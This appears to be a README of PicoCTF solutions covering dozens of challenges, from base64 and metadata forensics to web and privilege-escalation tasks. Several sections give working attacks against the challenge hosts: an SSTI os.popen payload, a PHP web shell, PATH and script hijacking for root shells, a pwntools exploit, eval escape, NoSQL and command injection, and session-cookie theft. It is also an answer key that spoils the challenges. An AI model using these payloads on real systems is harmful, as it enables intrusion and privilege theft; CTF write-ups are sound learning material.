








# PicoCTF

### DISCLAIMER: USE THIS ONLY IF YOUR REALLY STUCK AND TIRED OF FINDING THE PASSWORD AND HAVE NO OTHER WAY.

## THIS IS THE LAST OPTION.

## Verify

```
for file in files/*; do   ./decrypt.sh "$file"; done
```


## Scan Suprise

Extract challenge.zip

Scan with QR Scanner


## Binary Search

Use this Python script:

```
low, high = 1, 1000

for _ in range(10):
    guess = (low + high) // 2
    print(guess)
    output = input()
    
    if "Higher" in output:
        low = guess + 1
    elif "Lower" in output:
        high = guess - 1

print("DONE")
```
**Example:**


## heap 0

See the addresses: `0x5bd0e822e2b0` and `0x5bd0e822e2d0`. It is 32 byte gap So inputting a string of length > 32 characters will modify the bico and we gain access to the flag.

```
2
```
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAHELLO
```


## format string 0

The input 
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
Works because this leads to segmentation fault, which prints the flag.


## WebDecode


## Unminify


## Time Machine

Run this command on the folder where .git is present
```
git log --oneline
```


## Super SSH

Just Login

## endianness

Run the code then use this python script
```
def find_little_endian(word):
    # Reverse the string and convert each character to hexadecimal
    return "".join(f"{ord(c):02X}" for c in reversed(word))

def find_big_endian(word):
    # Convert each character to hexadecimal in order
    return "".join(f"{ord(c):02X}" for c in word)

# Example word from server
word = "weiwo"

# Compute endianness representations
little_endian = find_little_endian(word)
big_endian = find_big_endian(word)

print("Little Endian:", little_endian)
print("Big Endian:", big_endian)

```


## CanYouSee

Unzip the file

```
exiftool ukn_reality.jpg
```


The Text is clearly a Base 64 Cipher

cGljb0NURntNRTc0RDQ3QV9ISUREM05fYjMyMDQwYjh9Cg==

This gives the flag


## Glory of the Garden

```
strings garden.jpg
```


## information

```
exiftool cat.jpg
```


cGljb0NURnt0aGVfbTN0YWRhdGFfMXNfbW9kaWZpZWR9

It is Base 64


## Secret of the Polyglot

```
foremost flag2of2-final.pdf
```

First part of flag in PNG image

Second part of the flag in the PDF (Open PDF in Chrome)


## Ph4nt0m 1ntrud3r

```
tshark -r myNetworkTraffic.pcap -Y "tcp.len!=8" -T fields -e frame.time -e tcp.segment_data | sort -k4 | awk '{print $6}' | xxd -p -r | base64 -d
```


## RED

```
zsteg red.png
```
cGljb0NURntyM2RfMXNfdGgzX3VsdDFtNHQzX2N1cjNfZjByXzU0ZG4zNTVffQ==cGljb0NURntyM2RfMXNfdGgzX3VsdDFtNHQzX2N1cjNfZjByXzU0ZG4zNTVffQ==cGljb0NURntyM2RfMXNfdGgzX3VsdDFtNHQzX2N1cjNfZjByXzU0ZG4zNTVffQ==cGljb0NURntyM2RfMXNfdGgzX3VsdDFtNHQzX2N1cjNfZjByXzU0ZG4zNTVffQ==

Now put the data in Base64 decoder


## flags are stepic

```
curl http://standard-pizzas.picoctf.net:57324/
```

By asking AI which country doesnt exists gives us
```
Upanzi, Republic The
```

Download the png gives us a Very Large image of upz.png

run
```
stepic -d -i upz.png
```


## Big Zip

```
grep -r "picoCTF"
```


## First Find

```
grep -r "picoCTF"
```


## FANTASY CTF

Press Enter till prompt for a/b/c
```
c
```
Press Enter till prompt for a/b
```
a
```
Press Enter till you find the flag


## Commitment Issues

```
git show
```


## Collaborative Development

```
git merge feature/part-1
git merge feature/part-2
git merge feature/part-3
```


## Blame Game

```
git blame message.py
```


## binhexa

Follow the game and perform the operations


## hashcrack

Use Hash cracking websites
```
482c811da5d5b4bc6d497ffa98491e38
```
```
password123
```
```
b7a875fc1ea228b9061041b7cec4bd3c52ab3ce3
```
```
letmein
```
```
916e8c4f79b25028c9e467f1eb8eee6d6bbdff965f9928310ad30a8d88697745
```
```
qwerty098
```


## EVEN RSA CAN BE BROKEN???

Use RSA Website and put N and e values


## Mod 26

Use ROT13 decoder


## The Numbers

Convert list to numbers
a=1, b=2, c=3 ...
```
l=[16,9,3,15,3,20,6,0,20,8,5,14,21,13,2,5,18,19,13,1,19,15,14,0]
for i in l:
    print(chr(i+ord('a')-1),end='')
```


## 13

Use ROT13 decoder


## interencdec

Base 64

Base 64

Caesar Cipher


## repetitions

Multiple BASE 64 Encoding

Decode base64 till you get answer


## runme.py

Just run the python code


## fixme1.py

Remove indentation before print


## Glitch Cat

nc to the server and convert chr to ascii by Python


## HashingJobApp

Use MD5 encoding website

NOTE: Don't Include quotes 


## convertme.py

Since it is running locally, We can force the `if` statement to be true

Change
```
if ans_num == num:
```

To
```
if ans_num == num or True:
```


## fixme2.py

if statement should have `==` NOT `=`


## Codebook

Run python code


## Magikarp Ground Mission

```
ls
cat instructions-to-2of3.txt
cat 1of3.flag.txt
cd /
ls
cat 2of3.flag.txt
cat instructions-to-3of3.txt
cd ~
ls
cat 3of3.flag.txt
```


## Tab, Tab, Attack

Use `cd` then `Tab` `Tab` `Tab` ...
```
cd Addadshashanammu/Almurbalarammi/Ashalmimilkala/Assurnabitashpi/Maelkashishi/Onnissiralis/Ularradallaku/
```

./ `Tab`
```
./fang-of-haynekhtnamet
```


## Wave a flag

```
./warm -h
```


## Python Wrangling

```
python3 ende.py -d flag.txt.en
```


## Static ain't always noise

```
./ltdis.sh static
```
```
cat static.ltdis.strings.txt
```


## Nice netcat...

It is ASCII, Use ASCII to TEXT


## Obedient Cat

```
cat flag
```


## 2Warm

Python
```
bin(42)
```


## First Grep

cat file | grep "picoCTF"


## Bases

Base64


## Warmed Up

```
int('0x3D',16)
```


## strings it

```
strings strings | grep "picoCTF"
```


## what's a net cat?

```
nc jupiter.challenges.picoctf.org 64287
```


## Lets Warm Up

Python
```
chr(int('0x70',16))
```


## Transformation

Python
```
file_path = "enc"

with open(file_path, "r", encoding="utf-8") as f:
    encrypted_data = f.read()


decrypted_flag = ""

for char in encrypted_data:
    num = ord(char)  # Get the numeric representation
    first_char = chr(num >> 8)  # Extract the first character
    second_char = chr(num & 0xFF)  # Extract the second character
    decrypted_flag += first_char + second_char


decrypted_flag = decrypted_flag.rstrip("\x00")

print(decrypted_flag)
```


## vault-door-training

Password is within the file, Put it within picoCTF{...}
```
cat VaultDoorTraining.java
```


## SSTI1

Server-Side Template Injection (SSTI)
```
{{7*7}}
```
```
{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
```


## head-dump

Click on `# API-Documentation`

This opens
```
http://verbal-sleep.picoctf.net:56550/api-docs/
```

Now It says there is a `/heapdump`
```
http://verbal-sleep.picoctf.net:56550/heapdump
```

This prompts to download heapdump of the website

Now 
```
cat heapdump-1743316813402.heapsnapshot  | grep "picoCTF"
```


## WebDecode

Navigate to About page
```
http://titan.picoctf.net:59394/about.html
```

Now open Inspect mode

See notify_true
```
cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDJjZGNiNTl9
```

It is a Base64

Decoding gives the flag


## Unminify

Inspect the page, and see the source code


## Inspect HTML

Inspect the page, Flag is written in comments


## Includes

Inspect then, Open Networks tab, Refresh the page

See the .css and .js

The flags are written there


## where are the robots

Try opening robots.txt

```
http://jupiter.challenges.picoctf.org:60915/robots.txt
```

It says 
```
User-agent: *
Disallow: /8028f.html
```

Now open 
```
http://jupiter.challenges.picoctf.org:60915/8028f.html
```


## Insp3ct0r

Inspect the page,

HTML codes gives part 1 of the flag

Now open sources and see the .css and .js for other two parts of the flag.


## logon

Login with anything

Open Applications then Cookies

Here you see Admin : False

Make Admin to True and then Refresh the page


## dont-use-client-side

Inspect the page

See function verify

Write it in order, the order is like `checkpass.substring(<START> <END>)`


## GET aHEAD

```
curl -I http://mercury.picoctf.net:47967/
```


## Scavenger Hunt

Inspect the website:

```
wget -r http://mercury.picoctf.net:27278/
```

This gives 3 parts of the flag
```
cat *
```

For the fourth part, since it is an `apache server` Given in comments of the last file.

```
curl -s http://mercury.picoctf.net:27278/.htaccess
```

For the fifth part, It is given its done on Mac, so try
```
curl -s http://mercury.picoctf.net:27278/.DS_Store
```

This completes all five parts of the flag


## Cookie Monster Secret Recipe

First Enter random username and password and click on login. Inspect and go to Applications Then cookies. You can see one cookie named secret_recipe: Ckick on `Show URL decoded`. Now this is BASE64 Encoding.


## Cookies

See the cookies, Each cookie value shows a different text. Use this bash code to search for pico

```
for i in {0..100}; do r=$(curl -s -L --cookie "name=$i" http://mercury.picoctf.net:64944/); echo "$r" | grep -q "pico" && echo "Found at name=$i: $r" && break; done
```


## Bookmarklet

Opening the website shows the encoded flag with the function used to encode it. We just reverse the process.

```
encrypted = "àÒÆަȬë٣֖ÓÚåÛÑ¢Õӗ¨Í•ÕĦ–í"
key = "picoctf"
decrypted = ""

for i in range(len(encrypted)):
    e = ord(encrypted[i])
    k = ord(key[i % len(key)])
    decrypted += chr((e - k + 256) % 256)

print(decrypted)
```


## Local Authority

First entering random values for username and password and clicking on submit gives us `Login Failed`. Now inspecting the page gives us that it is checking the `secure.js` file. 
On curling the `secure.js`

```
curl http://saturn.picoctf.net:57430/secure.js
```

We get the username and password

Entering the username and password gives us the flag.


## hash-only-1

After loggin in we can see the terminal.

We can bypass and read the flag

```
echo '#!/bin/bash' > md5sum
echo '/bin/sh' >> md5sum
chmod +x md5sum
export PATH=.:$PATH
./flaghasher
```

Now it gives you a # Terminal
type 
```
cat /root/flag.txt
```


## hash-only-2

After loggin in we can see the terminal.

We can bypass and read the flag

Since we dont have permissing to run any thing we open anything here we use bash to open a new shell

```
bash
```

```
echo '#!/bin/bash' > md5sum
echo '/bin/sh' >> md5sum
chmod +x md5sum
export PATH=.:$PATH
flaghasher
```

Now it gives you a # Terminal
type 
```
cat /root/flag.txt
```


## two-sum

You have to cause Integer overflow
so enter

```
2147483647 1
```

It will overflow


## hijacking

The files are hidden

```
ls -la
```
vi works
```
vi /home/picoctf/.server.py
```

Add this at the beginning

```
import os
os.setuid(0)  # Change the user ID to root
os.system('/bin/bash')  # Execute a shell as root
```

It should be like this
```
picoctf@challenge:~$ cat .server.py
import base64
import os
import socket
import os
os.setuid(0)  # Change the user ID to root
os.system('/bin/bash')  # Execute a shell as root
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
import os
os.setuid(0)  # Change the user ID to root
os.system('/bin/bash')  # Execute a shell as root
import os
os.setuid(0)  # Change the user ID to root
os.system('/bin/bash')  # Execute a shell as root
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

Adding at the end doesnt work as the code fails getting serverhost

```
sudo -l 
```

Gives 
```
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```


Now we are root so we can go to `/root`
and then `ls -la` and read the flag

```
cd /root
ls -la
cat .flag.txt
```


## PIE TIME

```
from pwn import *  
  
hostname ='rescued-float.picoctf.net'
port = 53223
p = remote(hostname, port)
p.recvuntil(b"main: ")  
main_addr = int(p.recvline().strip(), 16)  
win_addr = main_addr - 0x96  
p.sendline(hex(win_addr))  
p.recvuntil(b"You won!\n")  
flag = p.recvline()  
print(flag.strip().decode("utf-8"))  
p.close()
```


## n0s4n1ty 1

Make a php payload and upload it

```
<?=`$_GET[cmd]`?>
```

Now you can run this to get the flag
```
http://standard-pizzas.picoctf.net:65172/uploads/shell.php?cmd=sudo%20ls%20-la%20/root
```
```
http://standard-pizzas.picoctf.net:65172/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt
```


## PW Crack 1

On seeing the Python code provided, We can see that the password is being compared with `1e1a`. So entering `1e1a` as the password, we can obtain the flag


## PW Crack 2

On seeint the python code provided we can see that the passowrd is written in hex which is converted to chr when comparing. So we can take only that part and run it on python to see what it gives



Using this passowrd gives the flag


## Flag Hunters

Using input as this gives the flag

```
;RETURN 0
```


## Rust fixme 1

The code has errors, So fix the code: 

This is the fixed code

```
use xor_cryptor::XORCryptor;

fn main() {
    // Key for decryption
    let key = String::from("CSUCKS"); // <-- Added missing semicolon

    // Encrypted flag values
    let hex_values = [
        "41", "30", "20", "63", "4a", "45", "54", "76", "01", "1c", "7e", "59",
        "63", "e1", "61", "25", "7f", "5a", "60", "50", "11", "38", "1f", "3a",
        "60", "e9", "62", "20", "0c", "e6", "50", "d3", "35"
    ];

    // Convert the hexadecimal strings to bytes and collect them into a vector
    let encrypted_buffer: Vec<u8> = hex_values.iter()
        .map(|&hex| u8::from_str_radix(hex, 16).unwrap())
        .collect();

    // Create decryption object
    let res = XORCryptor::new(&key);
    if res.is_err() {
        return; // <-- Fixed from `ret` to `return`
    }
    let xrc = res.unwrap();

    // Decrypt flag and print it out
    let decrypted_buffer = xrc.decrypt_vec(encrypted_buffer);
    println!(
        "{}", // <-- Fixed `:?` to `"{}"` and use correct formatting
        String::from_utf8_lossy(&decrypted_buffer)
    );
}
```

Compile with
```
cargo build
cargo run
```


## Rust fixme 2

The code has errors, So fix the code: 

This is the fixed code

```
use xor_cryptor::XORCryptor;

fn decrypt(encrypted_buffer: Vec<u8>, borrowed_string: &mut String) {
    // Key for decryption
    let key = String::from("CSUCKS");

    // Editing our borrowed value
    borrowed_string.push_str("PARTY FOUL! Here is your flag: ");

    // Create decryption object
    let res = XORCryptor::new(&key);
    if res.is_err() {
        return;
    }
    let xrc = res.unwrap();

    // Decrypt flag and print it out
    let decrypted_buffer = xrc.decrypt_vec(encrypted_buffer);
    borrowed_string.push_str(&String::from_utf8_lossy(&decrypted_buffer));
    println!("{}", borrowed_string);
}

fn main() {
    // Encrypted flag values
    let hex_values = [
        "41", "30", "20", "63", "4a", "45", "54", "76", "01", "1c", "7e", "59",
        "63", "e1", "61", "25", "0d", "c4", "60", "f2", "12", "a0", "18", "03",
        "51", "03", "36", "05", "0e", "f9", "42", "5b"
    ];

    let encrypted_buffer: Vec<u8> = hex_values.iter()
        .map(|&hex| u8::from_str_radix(hex, 16).unwrap())
        .collect();

    let mut party_foul = String::from("Using memory unsafe languages is a: ");
    decrypt(encrypted_buffer, &mut party_foul);
}

```

Compile with
```
cargo build
cargo run
```


## Rust fixme 3

The code has errors, So fix the code: 

This is the fixed code

```
use xor_cryptor::XORCryptor;

fn decrypt(encrypted_buffer: Vec<u8>, borrowed_string: &mut String) {
    // Key for decryption
    let key = String::from("CSUCKS");

    // Editing our borrowed value
    borrowed_string.push_str("PARTY FOUL! Here is your flag: ");

    // Create decryption object
    let res = XORCryptor::new(&key);
    if res.is_err() {
        return;
    }
    let xrc = res.unwrap();

    // Decrypt the flag
    let decrypted_buffer = xrc.decrypt_vec(encrypted_buffer);

    // No need for unsafe: String::from_utf8_lossy handles invalid UTF-8 safely
    borrowed_string.push_str(&String::from_utf8_lossy(&decrypted_buffer));

    println!("{}", borrowed_string);
}

fn main() {
    // Encrypted flag values
    let hex_values = [
        "41", "30", "20", "63", "4a", "45", "54", "76", "12", "90", "7e", "53", "63", "e1",
        "01", "35", "7e", "59", "60", "f6", "03", "86", "7f", "56", "41", "29", "30", "6f",
        "08", "c3", "61", "f9", "35"
    ];

    // Convert the hexadecimal strings to bytes
    let encrypted_buffer: Vec<u8> = hex_values.iter()
        .map(|&hex| u8::from_str_radix(hex, 16).unwrap())
        .collect();

    let mut party_foul = String::from("Using memory unsafe languages is a: ");
    decrypt(encrypted_buffer, &mut party_foul);
}

```

Compile with
```
cargo build
cargo run
```


## IntroToBurp

First enter anything it doesnt matter.
Then on the 2FA page use BurpSuite `https://portswigger.net/burp/releases/professional-community-2025-2-4`

Open the Proxy tab and open Intercept



Remove the OTP and forward the request




## 3v@l

Its a python code running eval inside it. The flag is located in `/`

```
__import__('o'+'s').popen('ca'+'t * ').read()
__import__('o'+'s').popen('l'+'s '+chr(47)).read()
__import__('o'+'s').popen('ca'+'t'+chr(32)+chr(47)+'f'+'l'+'a'+'g'+'.'+'t'+'x'+'t').read()
```

## WebSockFish

You can do this but
```
game.clear();
game.put({ type: 'k', color: 'b' }, 'e8');   // black king
game.put({ type: 'r', color: 'w' }, 'a8');   // white rook
game.put({ type: 'q', color: 'w' }, 'h7');   // white queen

stockfish.postMessage("position fen " + game.fen());
stockfish.postMessage("go depth 15");
```

But it doesn't run the sendMessage

So we manually send the eval

```
sendMessage("eval -100000");
```


## Event-Viewing

First using Windows Event viewer we get and sorting by event id:

There are couple of warnings and below that is what has got installed.

On seeing there is one installer which says `Totally_Legit_Software` which is suscipious


Now using python
```
from Evtx.Evtx import Evtx

def evtx_file(file_path):
    xml_records = []
    try:
        with Evtx(file_path) as log:
            for record in log.records():
                xml_records.append(record.xml())
    except FileNotFoundError:
        print("Error: File not found. Please check the file path and try again.")
    except Exception as e:
        print(f"An error occurred: {e}")
    return xml_records

if __name__ == "__main__":
    file_path = input("EVTX file: ").strip()
    records = evtx_file(file_path)
    for rec in records:
        print(rec)
```

Running this to save the output to a text file:
```
python3 1.py >out.txt
```

Give input as
```
Windows_Logs.evtx
```

We get,

On analysing we get the 3 parts of the flag encoded in base64


## No Sql Injection
NoSqlInjection

using cat on the files for `pico` gives us:


Username: `picoplayer355@picoctf.org`

For the password we can give 

Password: `{"$ne":null}`

This gives us the admin panel

Once in admin page run on the console
```
sessionStorage.getItem('token')
```


## FindAndOpen

On seeing the wireshark outputs have a closer look on Packet 48


Exclude the Header and copy the text

Cipher Detector says its `BASE 64`

Decoding with Base 64 gives us the Partial Flag


Using this partial flag to Open the Zip file Reads the Entire flag.


## DISKO 1

First Extract the `.gz` file. Then Using 
```bash
strings disko-1.dd | grep "pico"
```

We get the flag


## Undo

Connect to the challenge:
```bash
nc foggy-cliff.picoctf.net 63425
```
Question1
```
Base64 encoded the string
```

Linux Command will be:
```bash
base64 -d
```

Question2
```
Reversed the text
```

Linux Command will be:
```bash
rev
```

Question3
```
Replaced underscores with dashes
```

Linux Command will be:
```bash
tr '-' '_'
```

Question4
```
Replaced curly braces with parentheses
```

Linux Command will be:
```bash
tr '()' '{}'
```

Question5
```
Applied ROT13 to letters
```

Linux Command will be:
```bash
tr 'A-Za-z' 'N-ZA-Mn-za-m'
```

Finally we get the flag


## MY GIT

Clone the repository:
```bash
git clone ssh://git@foggy-cliff.picoctf.net:49378/git/challenge.git
```

Password:
```
3a51a2e1
```

Go to the repository and inspect it:

```bash
cd challenge
ls
cat README.md
```

README says:
```
Only flag.txt pushed by root:root@picoctf will be updated with the flag.
```

Create a flag file:
```bash
echo test > flag.txt
```

Commit as `root@picoctf`:
```bash
git add flag.txt
git -c user.name="root" -c user.email="root@picoctf" commit -m "add flag"
```

Push the commit:
```bash
git push origin master
```

We get the flag


## bytemancy 1
Source code contains:
```python
if user_input == "\x65"*1751:
```

`\x65` is hexadecimal for ASCII decimal `101`.

ASCII decimal `101` = `e`

Generate 1751 `e` characters:

```bash
python3 -c 'print("e"*1751)'
```

Now we can send them to nc
```bash
python3 -c 'print("e"*1751)' | nc foggy-cliff.picoctf.net 61908
```

Finally, we get the flag


## Printer Shares

Check the service:
```bash
nmap -sV -p 63241 mysterious-sea.picoctf.net
```

Output:
```
63241/tcp open  netbios-ssn Samba smbd
```

Enumerate SMB shares:
```bash
smbclient -L //mysterious-sea.picoctf.net -p 63241 -N
```

Output:
```
Sharename       Type
---------       ----
shares          Disk
```

Connect to the share:
```bash
smbclient //mysterious-sea.picoctf.net/shares -p 63241 -N
```

List files:
```bash
ls
```

Download the flag:
```bash
get flag.txt
```

This donwloads the file to the local system, Now we can read the flag.
```bash
cat flag.txt
```

Finally, we get the flag.


## ping-cmd

Connect to the challenge:
```bash
nc mysterious-sea.picoctf.net 65442
```

The server claims it only allows:
```
8.8.8.8
```

Testing command injection:
```text
8.8.8.8; ls
```

Output:
```
flag.txt
script.sh
```

Read the flag:
```text
8.8.8.8; cat flag.txt
```
Finally, we get the flag.


## bytemancy 0

Source code contains:
```python
if user_input == "\x65\x65\x65":
```

`\x65` is hexadecimal for ASCII decimal `101`.

ASCII decimal `101` = `e`

Therefore:
```text
eee
```

Connect to the challenge:
```bash
nc candy-mountain.picoctf.net 55915
```

Enter:
```text
eee
```

Or automate:
```bash
echo eee | nc candy-mountain.picoctf.net 55915
```

We get the flag


## Piece by Piece

SSH into the challenge:
```bash
ssh ctf-player@dolphin-cove.picoctf.net -p 54945
```

Password:
```text
1ad5be0d
```

List files:
```bash
ls -lah
```

Files found:
```text
part_aa
part_ab
part_ac
part_ad
part_ae
```

Read the instructions:
```bash
cat instructions.txt
```

Output
```
The flag is split into multiple parts as a zipped file.
Use Linux commands to combine the parts into one file.
The zip file is password protected.
Password: supersecret
```

Combine the file parts:
```bash
cat part_* > flag.zip
```

Verify the file type:
```bash
file flag.zip
```

Extract the zip file:
```bash
unzip flag.zip
```

Password:
```text
supersecret
```

Read the extracted file:
```bash
cat flag.txt
```

We get the flag.


## Old Sessions

Browse to:
```text
http://dolphin-cove.picoctf.net:50074/login
```

Register a new account `test` password `test` and login.

Homepage after login:


One of the comments contains a hint:
```text
Hey I found a strange page at /sessions
```

Navigate to:
```text
http://dolphin-cove.picoctf.net:50074/sessions
```

The page reveals all active sessions:
```text
1) session:7_l8FbGKimadDK55Ut1S2kWzIimJwRtXYtJvyaHj-5c, {'_permanent': True, 'key': 'admin'}

2) session:qcaC_MhZNpakfOrmEyhWOY12bWI5dj8p05ZkSxw2-Wo, {'_permanent': True, 'key': 'test'}
```

The application stores sessions indefinitely and exposes them publicly.

Open Developer Tools:

```text
F12 → Application → Cookies
```

Replace your session cookie value with the admin session:
```text
7_l8FbGKimadDK55Ut1S2kWzIimJwRtXYtJvyaHj-5c
```


Refresh the page and it opens to admin session

Admin session:


We get the flag


## SUDO MAKE ME A SANDWICH

SSH into the challenge:
```bash
ssh -p 49718 ctf-player@green-hill.picoctf.net
```

Password:
```text
deebe023
```

Check sudo permissions:
```bash
sudo -l
```

Output:
```text
User ctf-player may run the following commands on challenge:
    (ALL) NOPASSWD: /bin/emacs
```

Check the flag permissions:
```bash
ls -la
```

Output:
```text
-r--r----- 1 root root 31 flag.txt
```

Reading directly fails:
```bash
cat flag.txt
```

Output:
```text
cat: flag.txt: Permission denied
```

Since Emacs can be executed as root, launch it with sudo:
```bash
sudo emacs
```

Inside Emacs:
```text
Alt + x
```

Type:
```text
shell
```

Press Enter.

Verify root access:
```bash
whoami
```

Output:
```text
root
```


Read the flag:
```bash
cat flag.txt
```
We get the flag


## Binary Digits

The file contains only `0` and `1` characters.

Checking the first bytes after grouping into 8-bit chunks reveals:

```text
FF D8 FF E0 00 10 4A 46 49 46
```

This is the header of a JPEG file (`JFIF`).

So the string is actually an Image.

Convert the binary string into bytes:
```bash
python3 -c "
data=open('digits.bin').read().strip()
open('out.jpg','wb').write(
    bytes(int(data[i:i+8],2) for i in range(0,len(data),8))
)
"
```

We get the image Opening the image we get the flag.


## Riddle Registry

Copy Pasting the text to escape the Censored contents doesnt help much as it gives

```text
Title: The Ultimate Guide to Flag Hunting
Welcome to the challenge!
Don’t worry, this might look like gibberish, but maybe there’s something hidden somewhere? I
spent so much time creating this PDF with care... or maybe not!
Here’s a Quick Story:
Once upon a time, in a land far, far away, there was a secret... But where could it be? Hidden
deep within the document? Maybe the text holds clues?
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Integer posuere erat a ante venenatis
dapibus posuere velit aliquet. Aenean lacinia bibendum nulla sed consectetur. Fusce dapibus,
tellus ac cursus commodo, tortor mauris condimentum nibh, ut fermentum massa justo sit amet
risus. Curabitur blandit tempus porttitor. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
You thought this was important? Nah, it’s just random text. Keep looking. Or maybe, just
maybe, you’re in the wrong place?
Special Hidden Section:
The author have done a great and good job
Don’t bother trying to reveal the hidden text, it’s just nonsense anyway. Even if you somehow
manage to do it, all you’ll get is:
No flag here. Nice try though!
If you're still reading this, I’ll tell you a secret: the answer might not be here after all...
Good luck! You’ll need it!
```

Now lets look at the PDF metadata:
```bash
exiftool confidential.pdf
```

Output:
```text
Author : cGljb0NURntwdXp6bDNkX20zdGFkYXRhX2YwdW5kIV9jOGY5MWQ2OH0=
```
This is clearly Base64

Decode the Base64 string:
```bash
echo "cGljb0NURntwdXp6bDNkX20zdGFkYXRhX2YwdW5kIV9jOGY5MWQ2OH0=" | base64 -d
```
We get the flag.


## Hidden in plainsight

Inspect the image metadata:
```bash
exiftool img.jpg
```

Output:
```text
Comment : c3RlZ2hpZGU6Y0VGNmVuZHZjbVE9
```

This is clearly a Base64, we can get to know from `Cipher Identifier Website`

Decoding the Base64 string:
```bash
echo "c3RlZ2hpZGU6Y0VGNmVuZHZjbVE9" | base64 -d
```

Output:
```text
steghide:cEF6endvcmQ=
```

Decode the second Base64 string:
```bash
echo "cEF6endvcmQ=" | base64 -d
```

Output:
```text
pAzzword
```
So we use **Steghide** to decode with the password as `pAzzword`

Extract the hidden file:
```bash
steghide extract -sf img.jpg
```

Enter the passphrase:
```text
pAzzword
```

Output:

```text
wrote extracted data to "flag.txt".
```

Read the flag:
```bash
cat flag.txt
```
We get the flag


## Flag in Flame

Check the file type:
```bash
file logs.txt
```

The file contains a huge block of encoded text.

Convert the encoded text into its original form:
```bash
base64 -d logs.txt > decoded.bin
```

Identify the resulting file:
```bash
file decoded.bin
```

Output:
```text
decoded.bin: PNG image data, 896 x 1152, 8-bit/color RGB, non-interlaced
```

The decoded file is actually an PNG image.

```bash
cp decoded.bin image.png
```

Attempt to search for strings:

Opening the image we can see the text
```text
7069636F4354467B666F72656E736963735F616E616C797369735F69735F616D617A696E675F35646161346132667D
```

Convert the hex string to ASCII:
```bash
echo "7069636F4354467B666F72656E736963735F616E616C797369735F69735F616D617A696E675F35646161346132667D" | xxd -r -p
```
We get the flag.


## Corrupted file

Check the file type:
```bash
file file
```

Output:
```text
file: data
```

The file is not recognized.

View the file header:
```bash
xxd file | head
```

Output:
```text
00000000: 5c78 ffe0 0010 4a46 4946 0001 0100 0001  \x....JFIF......
```

Clearly its a JPEG compressed file

Notice the first bytes:
```text
5c 78 ff e0
```

A valid JPEG should begin with:
```text
ff d8 ff e0
```

The bytes `5c 78` (`\x`) have replaced the JPEG magic bytes `ff d8`.

Use Python to restore the correct bytes:
```bash
python3 -c "
data=bytearray(open('file','rb').read())
data[0]=0xff
data[1]=0xd8
open('fixed.jpg','wb').write(data)
"
```

Opening the `fixed.jpg` gives the Flag.


## StegoRSA

Running exiftool on the image
```bash
exiftool image.jpg
```

Output:

```text
Comment : 2d2d2d2d2d424547494e2050524956415445204b45592d2d2d2d2d...
```

Extract the comment
```bash
exiftool -b -Comment image.jpg | xxd -r -p > private.pem
```

Reading the Encrypted File
```bash
file flag.enc
```

Output:
```text
flag.enc: data
```

The file is raw binary ciphertext.

Now Decrypting the flag
```bash
openssl pkeyutl -decrypt \
  -inkey private.pem \
  -in flag.enc
```

We get the flag.


## Shared Secrets

The challenge uses Diffie-Hellman key exchange
```python
# Public parameters
g = 2
p = getPrime(1048)

# Server's secret
a = randint(2, p-2)
A = pow(g, a, p)

# Client secret
b = '???'

B = pow(g, b, p)

# Shared key
shared = pow(A, b, p)

# Encrypt flag
flag = b"picoCTF{...}"
enc = bytes([x ^ (shared % 256) for x in flag])
```

The flag is encrypted using XOR with:
```python
shared % 256
```

The challenge leaks the following values:
```text
g = 2
p = 2520609159009929347536387393563498975639833851464009529596306653948592129706406688397154482508143342649906304992943744287174782696018089880181218353683839481521675612601609781166049729597088517468177918998829464839334532869572792344076531667178728742790399860119736363722424122966218451041463273372651603890875287543

A = 791451817798551421425019537796986479783064478217819080700007654115657719883729010847026029739433119883200357511186360598648834336636215127080716489172129988570782291706578657989224420772835625044632447980711080027693574429736034184510115763702267066250562670847015949330608876832707054355872881534831092459752744534

b = 2214025115060717777202118390378463885971416817502000638417185263993584676072781441101216882399181123369745573814553627785271003376636927412998286834543669456582230812057167829290549630031027455783373831662247627668596197609798578004041770078906393675046891509334739674544185624487771672029509883254653684750655210027

enc = 7a636965495e4c716e625579396978397e553a6e3b3f3c386f6f77
```

In Diffie-Hellman, the secret values (`a` and `b`) must never be disclosed. Because the client secret `b` is leaked, we can directly compute the shared secret:

```python
shared = pow(A, b, p)
```

By using the following script we can break it
```python
from Crypto.Util.number import *

p = 2520609159009929347536387393563498975639833851464009529596306653948592129706406688397154482508143342649906304992943744287174782696018089880181218353683839481521675612601609781166049729597088517468177918998829464839334532869572792344076531667178728742790399860119736363722424122966218451041463273372651603890875287543

A = 791451817798551421425019537796986479783064478217819080700007654115657719883729010847026029739433119883200357511186360598648834336636215127080716489172129988570782291706578657989224420772835625044632447980711080027693574429736034184510115763702267066250562670847015949330608876832707054355872881534831092459752744534

b = 2214025115060717777202118390378463885971416817502000638417185263993584676072781441101216882399181123369745573814553627785271003376636927412998286834543669456582230812057167829290549630031027455783373831662247627668596197609798578004041770078906393675046891509334739674544185624487771672029509883254653684750655210027

enc = bytes.fromhex("7a636965495e4c716e625579396978397e553a6e3b3f3c386f6f77")

shared = pow(A, b, p)
key = shared % 256

flag = bytes([x ^ key for x in enc])

print(flag.decode())
```

Finally we get the flag.


## Quizploit

Check the binary type:
```bash
file vuln
```

Output:
```text
ELF 64-bit LSB executable, x86-64
```

### Question 1
**Is this a 32-bit or 64-bit ELF?**

Answer:
```text
64-bit
```

### Question 2
**What's the linking of the binary?**

Answer:
```text
dynamic
```

The binary uses standard C library functions such as:
* fprintf
* fgets
* system

This indicates dynamic linking.

Check:
```bash
file vuln
```

### Question 3
**Is the binary stripped or not stripped?**

Answer:
```text
not stripped
```

